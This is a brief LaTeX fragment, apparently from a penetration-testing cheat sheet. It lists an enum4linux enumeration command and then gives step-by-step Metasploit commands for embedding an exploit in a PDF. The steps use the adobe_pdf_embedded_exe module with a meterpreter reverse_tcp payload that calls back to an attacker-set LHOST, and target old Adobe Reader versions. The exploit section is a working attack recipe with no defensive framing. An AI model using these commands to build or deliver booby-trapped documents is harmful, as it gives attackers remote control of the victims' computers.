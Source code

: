 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{Enum4linux}
\begin{lstlisting}
	enum4linux $IP
\end{lstlisting}

\section{Miscellaneous}

\subsection{Embedding an exploit in a pdf file}
This exploit only works on Adobe Reader Version 9.1 or lower.
\begin{lstlisting}
	msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
	
	msf > exploit (adobe_pdf_embedded_exe) > set payload 
	windows/meterpreter/reverse_tcp
	
	msf > exploit (adobe_pdf_embedded_exe) > set INFILENAME 
	chapter1.pdf
	
	msf > exploit (adobe_pdf_embedded_exe) > set FILENAME 
	chapter1.pdf
	
	msf > exploit (adobe_pdf_embedded_exe) > set LHOST $YOURIP
	
	exploit
\end{lstlisting}
\end{document}
